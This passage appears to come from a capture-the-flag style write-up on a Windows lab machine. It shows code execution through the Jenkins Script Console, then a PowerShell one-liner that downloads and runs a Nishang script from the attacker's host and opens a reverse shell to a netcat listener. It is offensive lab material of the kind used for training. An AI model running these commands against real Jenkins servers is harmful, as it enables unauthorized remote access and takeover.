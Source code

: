 While scrolling through the Jenkins interface, I finally found something promising under **Manage Jenkins** → **Script Console**.

![image](https://github.com/user-attachments/assets/4a883914-a503-4df8-b551-98415f9cc72b)

After experimenting for a bit, I figured out how to run commands. Let’s test it by listing the contents of the `C:` drive using:

```groovy
cmd = "cmd.exe /c dir"
println cmd.execute().text
```

![image](https://github.com/user-attachments/assets/08208f34-aedc-4bf8-b079-79792292dfb5)

Nice! We got some output. Now let’s move on to getting a reverse shell.

### Preparing the Reverse Shell

We'll use **Nishang**, a collection of PowerShell scripts for exploitation. Clone the repo:

```bash
git clone https://github.com/samratashok/nishang
```

Navigate to the `Shells` directory:

```bash
cd nishang/Shells/
```

Now, we’ll host the reverse shell script using a simple Python HTTP server:

```bash
python3 -m http.server
```

![image](https://github.com/user-attachments/assets/ec758bd2-d1b0-4211-8d65-cf8fcf5eafc7)

Meanwhile, set up a Netcat listener on a different port to catch the shell:

```bash
nc -lnvp 1234
```

### Executing the Reverse Shell

We’ll download and execute the reverse shell script on the target machine via the Jenkins Script Console:

```groovy
cmd = "powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port"
println cmd.execute()
```

Example with my setup:

```groovy
cmd = "powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.14.127:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.17.14.127 -Port 1234"
println cmd.execute()
```
